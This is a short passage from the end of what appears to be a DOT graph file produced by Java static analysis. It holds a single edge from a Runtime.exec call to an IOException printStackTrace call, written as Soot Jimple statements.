    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
}
